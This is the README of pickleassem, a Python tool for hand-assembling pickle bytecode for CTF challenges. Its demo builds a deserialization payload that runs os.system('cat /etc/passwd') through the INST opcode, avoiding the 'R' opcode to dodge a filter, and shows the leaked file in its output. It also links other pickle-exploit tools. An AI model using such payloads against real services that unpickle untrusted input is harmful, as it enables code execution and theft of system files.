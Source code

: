 # pickleassem

[![PyPI - Downloads](https://pepy.tech/badge/pickleassem)](https://pepy.tech/count/pickleassem)
[![PyPI - Version](https://img.shields.io/pypi/v/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Format](https://img.shields.io/pypi/format/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/pickleassem.svg)](https://pypi.org/project/pickleassem)
[![PyPI - Status](https://img.shields.io/pypi/status/pickleassem.svg)](https://pypi.org/project/pickleassem)

[![Travis CI - Status](https://img.shields.io/travis/com/gousaiyang/pickleassem.svg)](https://travis-ci.com/gousaiyang/pickleassem)
[![Codecov - Coverage](https://codecov.io/gh/gousaiyang/pickleassem/branch/master/graph/badge.svg)](https://codecov.io/gh/gousaiyang/pickleassem)
![License](https://img.shields.io/pypi/l/pickleassem.svg)

A simple pickle assembler to make handcrafting pickle bytecode easier.

This is useful for CTF challenges like [pyshv in Balsn CTF 2019](https://ctftime.org/task/9386).

## Demo

```python
import pickle
import pickletools

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.push_short_binunicode('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
assert b'R' not in payload
print(payload)
pickletools.dis(payload, annotate=1)
pickle.loads(payload)
```

Output:

```
b'\x80\x04(\x8c\x0fcat /etc/passwdios\nsystem\n.'
    0: \x80 PROTO      4 Protocol version indicator.
    2: (    MARK         Push markobject onto the stack.
    3: \x8c     SHORT_BINUNICODE 'cat /etc/passwd' Push a Python Unicode string object.
   20: i        INST       'os system' (MARK at 2) Build a class instance.
   31: .    STOP                                   Stop the unpickling machine.
highest protocol among opcodes = 4
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

## Installation

Install with pip: `pip install -U pickleassem`

## Documentation

Just refer to the source code. Each method of `PickleAssembler` whose name begins with `push`, `build`, `pop` or `memo` corresponds to a pickle opcode.

The following opcodes and corresponding features are not implemented: `PERSID`, `BINPERSID`, `EXT1`, `EXT2`, `EXT4`, `FRAME`, `NEXT_BUFFER`, `READONLY_BUFFER`.

## See Also

Other tools for pickle exploit:

- `anapickle`: [slides](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf), [repo](https://github.com/sensepost/anapickle)
- [`pwnypack.pickle`](https://github.com/edibledinos/pwnypack/blob/master/pwnypack/pickle.py)
